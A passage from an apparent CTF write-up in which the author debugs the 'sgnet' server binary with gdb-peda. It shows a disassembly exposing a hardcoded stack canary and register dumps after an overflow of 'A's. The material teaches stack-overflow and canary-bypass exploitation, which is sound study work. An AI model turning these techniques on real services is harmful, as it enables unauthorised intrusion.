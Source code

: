 while using GDBs ability to follow child processes after a call to fork(). 

{% highlight bash %}
gdb ./sgnet
gdb-peda$ set follow-fork-mode child
{% endhighlight %}

I was firstly interested in bypassing the canary so I set a breakpoint on the xor check so I can build my input string. I also start the parent process

{% highlight bash %}
gdb-peda$ disass sgstatd
Dump of assembler code for function sgstatd:
   0x0804984f <+0>:	push   ebp
   0x08049850 <+1>:	mov    ebp,esp
   0x08049852 <+3>:	sub    esp,0x78
   0x08049855 <+6>:	mov    DWORD PTR [ebp-0x4],0xe4ffffe4
   0x0804985c <+13>:	sub    esp,0x4
   0x0804985f <+16>:	push   0x1e
   0x08049861 <+18>:	push   0x8049c7b
   0x08049866 <+23>:	push   DWORD PTR [ebp+0x8]
   0x08049869 <+26>:	call   0x80489a0 <write@plt>
   0x0804986e <+31>:	add    esp,0x10
   0x08049871 <+34>:	mov    eax,ds:0x804a1c0
   0x08049876 <+39>:	sub    esp,0xc
   0x08049879 <+42>:	push   eax
   0x0804987a <+43>:	call   0x8048850 <fflush@plt>
   0x0804987f <+48>:	add    esp,0x10
   0x08049882 <+51>:	sub    esp,0x4
   0x08049885 <+54>:	push   0xc8
   0x0804988a <+59>:	lea    eax,[ebp-0x6c]
   0x0804988d <+62>:	push   eax
   0x0804988e <+63>:	push   DWORD PTR [ebp+0x8]
   0x08049891 <+66>:	call   0x8049017 <sgnet_readn>
   0x08049896 <+71>:	add    esp,0x10
   0x08049899 <+74>:	mov    edx,DWORD PTR [ebp-0x4]
   0x0804989c <+77>:	xor    edx,0xe4ffffe4
   0x080498a2 <+83>:	jne    0x804982f <sgnet_exit>
   0x080498a8 <+89>:	mov    eax,0x0
   0x080498ad <+94>:	leave  
   0x080498ae <+95>:	ret 
gdb-peda$ b *0x0804989c
Breakpoint 1 at 0x804989c
gdb-peda$ r
Starting program: /root/holidayhack/sgnet 
Server started...
[New process 5598]
[Switching to process 5598]

{% endhighlight %}

Once I run my exploit we can see that the value in EDX is my string of "A"

{% highlight bash %}
[----------------------------------registers-----------------------------------]
EAX: 0xc8 
EBX: 0xb7fca000 --> 0x1a5da8 
ECX: 0xbfffee9c ('A' <repeats 200 times>...)
EDX: 0x41414141 ('AAAA')
ESI: 0x0 
EDI: 0x0 
EBP: 0xbfffef08 ('A' <repeats 92 times>, "\230\300\004\b\023")
ESP: 0xbfffee90 --> 0xbfffeef0 ('A' <repeats 116 times>, "\230\300\004\b\023")
EIP: 0x804989c (<sgstatd+77>:	xor    edx,0xe4ffffe4)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]